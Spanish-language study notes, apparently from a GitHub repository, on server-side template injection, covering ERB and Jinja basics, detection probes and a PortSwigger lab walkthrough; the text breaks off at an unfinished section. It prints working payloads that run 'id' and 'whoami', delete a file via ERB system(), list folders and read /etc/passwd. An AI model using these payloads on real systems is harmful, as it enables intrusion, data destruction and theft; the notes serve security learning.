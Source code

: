 
# Server-side template injection (SSTI)

Las paginas html antes eran estaticas pero con la aparicion de frameworks como ruby on rails y librerias como reactjs. Las paginas de internet
se hicieron mas dinamicas.

> HTML tags provide static web pages only but ERB tags give us dynamic information in that HTML template.

## Template Example

```
<h1> Event Details for <%= event.name %> </h1> 
```

Un ejemplo es fb para todos los perfires renderiza los amigos de cada cuenta y existen 2 el client side rendering y server side rendering.

> A menos que ya conozca el motor de plantillas de adentro hacia afuera, leer su documentación suele ser el primer lugar para comenzar.
> Aprender la sintaxis básica es obviamente importante, junto con las funciones clave y el manejo de variables. Incluso algo tan simple como aprender a incrustar bloques de código nativo en la plantilla a veces puede conducir rápidamente a un exploit. Por ejemplo, una vez que sepa que se está utilizando el motor de plantillas Mako basado en Python, lograr la ejecución remota de código podría ser tan simple como:

***Palabra clave***: motores de plantillas comunes

```
<%
                import os
                x=os.popen('id').read()
                %>
                ${x}
                
```

# Tipos de motores de plantillas (aunque hay muchos esto solo es un ejemplo)

## ERB 

ERB es un motor de plantillas. Un motor de plantillas le permite mezclar HTML y Ruby para que pueda generar páginas web utilizando datos de su base de datos. ERB es el motor predeterminado de Rails para renderizar vistas. Nota: Rails usa una implementación llamada erubi en lugar de la clase ERB de la biblioteca estándar de Ruby.

Sintaxis example

```
<%= @user.name%>
```


## JINJA

Jinja2 is a modern day templating language for Python developers. It was made after Django's template. It is used to create HTML, XML or other markup formats that are returned to the user via an HTTP request.

Sintaxis example

```
{{user.hit_that_like}}

```

# SSTI metodologia

1. Busca reflexion de parametros ingresados por el usuario
2. enumera de que template engine se trata haciendo que el payload sea evaluado
3. explitalo rce o solo sacar informacion.

> https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection

### Detect - Plaintext context( dentro de hacktricks) 

```

{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}

```

# Basic server-side template injection

Para este laboratorio primero nos damos cuenta que al probar un producto nos manda en una peticion GET que no hay stock
despues si en esa misma peticion ponemos algo cualquier cosa lo renderiza!


```
GET /?message=<%25%3d+system("rm+morale.txt")+%25> HTTP/1.1
Host: 0a9a000604434cc5c04469150063005a.web-security-academy.net
Cookie: session=9w4H3Kb9L9iMwIiijw2slP6Pt6LKHJQ0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.5112.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="104"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0a9a000604434cc5c04469150063005a.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: es-419,es;q=0.9
Connection: close



```

Se manda la peticion al intruder y se selecciona donde estara el payload despues no dirijomos a la pestaña
Payloads -> Payloads Options y ahi pegamos las " Plaintext context" para probar a que tipo de template engine
nos enfrentamos. Tambien nos dirigimos a Options-> Reg Extract -> add y seleccionamos el div donde se refleja 
nuestro output en nuesta respuesta de la pericion GET. Inciamos el ataque y vemos que la sintaxis de ERB de ruby es
la que renderiza el 49 (7*7).

Finalmente podemos ejecutar comandos con:

```
<%= system("whoami") %> #Execute code
<%= Dir.entries('/') %> #List folder
<%= File.open('/etc/passwd').read %> #Read file

```

Borrando el archivo ( recuerda usar URL encode)


# Basic server-side template injection (code context)

Par  este  laboratorio se tiene que pensar de la siguiente mannera 




























